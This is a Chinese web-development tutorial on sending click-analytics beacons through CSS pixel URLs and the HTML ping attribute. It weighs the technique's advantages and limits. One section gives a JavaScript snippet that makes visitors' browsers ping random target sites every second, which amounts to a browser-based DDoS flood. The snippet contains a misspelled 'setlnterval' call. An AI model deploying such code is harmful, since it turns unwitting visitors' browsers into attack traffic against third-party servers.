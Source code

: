 # 借助HTML ping属性实现数据上报
## CSS上报
``` 
.button-1:active::after {
    content: url(./pixel.gif?action=click&id=button1);
    display: none;
}
.button-2:active::after {
    content: url(./pixel.gif?action=click&id=button2);
    display: none;
}
```
使用CSS变量优化
``` 
.report:active::after {
    content: var(--report);
    display: inline-block;
    position: absolute;
}
```
设置了类名 .report 的元素按下的时候都会上报，例如：
``` 
<button class="report" style="--report:url(./pixel.gif?action=click&id=button1)">按钮1</button>
<button class="report" style="--report:url(./pixel.gif?action=click&id=button2)" >按钮2</button>
```
## ping属性与数据上报
a链接元素，只要设置了 ping 属性，用户点击此链接元素的时候，浏览器就会自动发送一个 POST 请求给 ping 属性值地址。  
``` 
<a href ping="/pixel.gif?action=click&id=link1">链接1</a>
<a href ping="/pixel.gif?action=click&id=link2">链接2</a>
```
点击“链接1”和“链接2”，浏览器就会给服务器 POST '/pixel.gif...'这个地址。  
 ping 请求的 content-type 是 text/ping，包含了用户的 User-Agent，是否跨域，目标来源地址等信息，非常方便数据收集的时候进行追踪。
## ping属性的优势
使用 ping 属性实现数据上报的优点：
- 无需 JavaScript 代码参与，网页功能异常也能上报；
- 不受浏览器刷新、跳转过关闭影响，也不会阻塞页面后续行为，这一点和 navigator.sendBeacon() 类似，可以保证数据上报的准确性；
- 支持跨域；
- 可上报大量数据，因为是 POST 请求
- 语义明确，使用方便，灵活自主
## ping属性的劣势
- 只能支持点击行为的上报，如果是进入视区，或弹框显示的上报，需要额外触发下元素的 click() 行为；
- 只能支持 <a> 元素，在其他元素上设置 ping 属性没有作用，这就限制了其使用范围，
- 只能是 POST 请求，目前主流的数据统计还是日志中的 GET 请求，不能复用现有的基建。
- 适合在移动端项目使用，PC端需要酌情使用（不需要考虑上报总量的情况下），因为目前 IE 和 Firefox 浏览器都不支持（或没有默认开启支持）。
## ping属性与DDoS攻击
``` 
var arr = ['https://www.exampe1.com', 'https://www.exampe2.com', 'https://www.exampe3.com'];
function yzk( ){
    var indexarr = Math.floor((Math.random( )*arr.length));
    document.writeln("<script>var link = document.createElement(\'a\');link.href=\'\';link.ping=\'"+
        arr[indexarr] +
    "\';document.head.appendChild(link); link.click();</script>");
}

if(arr.length>0){
    var ytimename = setlnterval("yzk()", 1000);
}
```
创建一个a元素，设置 ping 地址，触发此链接元素的 click() 事件，此时就可以对目标服务器发动请求攻击了，不停地定时请求攻击。
## 场景
ping 属性上报尤其独到之处，可以用到需要精确知道数据，但是不需要那么广泛或大规模的场景。如果是复杂的大规模的系统上报，则 ping 属性方法并不合适，还是使用传统的 JavaScript 发送请求的方式吧。

参考:
[借助HTML ping属性实现数据上报](https://www.zhangxinxu.com/wordpress/2021/09/html-ping/)
